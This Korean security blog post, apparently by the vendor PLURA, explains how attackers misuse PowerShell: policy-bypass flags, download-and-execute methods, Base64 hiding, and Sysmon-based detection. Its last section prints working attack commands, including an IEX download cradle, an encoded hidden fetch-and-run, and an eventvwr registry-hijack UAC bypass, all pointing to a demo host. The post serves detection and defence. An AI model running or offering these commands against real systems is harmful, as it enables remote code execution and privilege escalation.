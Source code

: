 ```yaml
---
date: 2020-05-12T00:03:00
description: 
featured_image: 
tags: ["PowerShell", "악성코드", "웹 해킹", "보안 취약점", "PLURA"]
title: "PowerShell을 이용한 공격"
---
```


![2020-05-12](https://github.com/user-attachments/assets/a90db7c2-5c10-4f7e-b9d4-20c828b5a299)

## PowerShell

시스템 관리 및 자동화 등을 목적으로 설계된 명령줄 셸 및 스크립팅 언어입니다.  
Windows Vista 이후 기본 탑재되어 공격자의 도구로 많이 사용되고 있습니다.

### 1. 실행 정책 (Execution Policy)
기본적으로 Microsoft는 PowerShell 스크립트 실행을 제한합니다.  
그러나 공격자는 이를 쉽게 우회할 수 있습니다.  
> **우회 Flags**  
> -ExecutionPolicy/-EP Bypass  
> -ExecutionPolicy/-EP Unrestricted  
> -noprofile or -nop  
> *Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정한 Profile도 무시할 수 있습니다.

### 2. 다운로드
PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행합니다.  
> 악의적인 PowerShell 스크립트 명령줄에서 자주 사용되는 명령입니다.  
> New-Object: .NET Framework의 인스턴스를 만듭니다.  
> System.Net.Webclient: 원격 리소스와의 데이터 송수신에 사용됩니다.  
> DownloadString: 원격지에서 IEX가 실행할 메모리 버퍼로 내용을 다운로드합니다.  
> DownloadFile: 원격지에서 로컬 파일로 컨텐츠를 다운로드합니다.  
> IEX/Invoke-Expression: 로컬 컴퓨터에서 명령을 실행합니다.  
> ICM/Invoke-Command: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

### 3. 인코딩
- 인코딩은 PowerShell Command를 사용자 및 특정 로그에서 숨길 수 있는 한 가지 방법입니다.  
- Base64 인코딩을 사용한 경우 CommandLine의 길이가 길어집니다.  
- 인코딩 또한 우회되더라도, 장문의 명령어를 통해 불러온 PowerShell이라면 의심해볼 필요가 있습니다. ( > 500 is odd)

### 4. DLL
- 악의적인 행동을 탐지하려면, 의심스러운 호출의 조합을 찾아야 합니다.  
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 이러한 DLL이 호출되고 있는지 모니터링합니다.  
*sysmon id 7 (ImageLoaded)을 통해 확인 가능합니다.  
System.Management.Automation.Dll  
System.Management.Automation.ni.Dll  
System.Reflection.Dll

### 5. PLURA에서 PowerShell 악성 행위 탐지
*Sysmon 설치 필수  
설치 방법: [PLURA Sysmon 설치 가이드](https://docs.plura.io/ko/agents/edr/windows/sysmon)  

![ps-0-1](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

**악성 파일 실행**  
PowerShell 우회 및 공격자 서버로부터 파일 다운로드 행위 발생  
![ps-2-1](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**필터 탐지 > 호스트보안**  
PLURA에서는 이런 악의적인 공격을 Sysmon을 활용하여 필터 탐지하고 있습니다.

> **공격 명령어**  
```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```
